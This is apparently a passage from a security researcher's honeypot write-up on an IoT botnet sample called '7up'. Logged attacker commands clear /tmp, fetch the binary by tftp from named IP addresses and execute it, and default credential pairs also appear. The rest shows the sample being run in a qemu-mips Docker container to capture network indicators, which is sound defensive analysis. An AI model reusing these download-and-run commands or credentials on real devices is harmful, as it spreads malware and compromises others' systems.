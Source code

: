
{% highlight bash %}
$ grep -F 'tftp -l 7up -r 7up -g 89.33.64.118' heralding_activity.log | csvcut -c 4 | sort -u  > /tmp/7up-scanners
$ wc -l /tmp/7up-scanners 
     338 /tmp/7up-scanners
$ grep -F -f /tmp/7up-scanners heralding_activity.log | csvcut -c 9,10 | sort | uniq -c | sort -nr
    693 cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 89.33.64.118;chmod a+x 7up;./7up,system
    350 Admin,5up
    347 root,5up
      2 cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 89.33.64.117;chmod a+x 7up;./7up,system
      2 cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 86.105.1.109;chmod a+x 7up;./7up,system
{% endhighlight %}

[Here](/data/7up-scanners.txt) are the IPs observed trying to get my honeypot to download and execute this specific sample (via "tftp -l 7up -r 7up -g 89.33.64.118").

## Docker + qemu-mips

h/t to [Andrew Morris](https://twitter.com/Andrew___Morris) for his post: [Quick TR069 Botnet Writeup + Triage](http://morris.guru/quick-tr069-botnet-writeup-triage/).  I used his method to run this file using [Docker and qemu-mips](https://hub.docker.com/r/asmimproved/qemu-mips/) to get some network IOCs and it worked very well.

{% highlight bash %}
$ docker pull asmimproved/qemu-mips
Using default tag: latest
latest: Pulling from asmimproved/qemu-mips

fdd5d7827f33: Pull complete 
a3ed95caeb02: Pull complete 
04f80dca1be3: Pull complete 
ec0e3823cad3: Pull complete 
479203818acd: Pull complete 
535b517723bd: Pull complete 
244dc522b0d5: Pull complete 
50d7b54d9c62: Pull complete 
8d61a54cd693: Pull complete 
bf48617ae046: Pull complete 
Digest: sha256:e55d85503449307b7621c595d821a84bd14a7ba38a29c9c387b364f90fd33dae
Status: Downloaded newer image for asmimproved/qemu-mips:latest

$ docker run -it asmimproved/qemu-mips

root@46621b449dc5:/project# apt-get install -y tcpdump
root@46621b449dc5:/project# tcpdump -s0 -w packets.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
{% endhighlight %}

In another terminal, run this:

{% highlight bash %}
$ docker ps
CONTAINER ID        IMAGE                   COMMAND             CREATED                  STATUS              PORTS               NAMES
46621b449dc5        asmimproved/qemu-mips   "bash"              Less than a second ago   Up 5 seconds                            happy_wright
$ docker cp 7up 46621b449dc5:/tmp/
$ docker exec -it 46621b449dc5 /bin/bash

root@46621b449dc5:/project# cd /tmp
root@46621b449dc5:/tmp# qemu-mips chmod 755 7up
root@46621b449dc5:/tmp# qemu-mips ./7up
Socket Bind: Address already in use

{% endhighlight %}
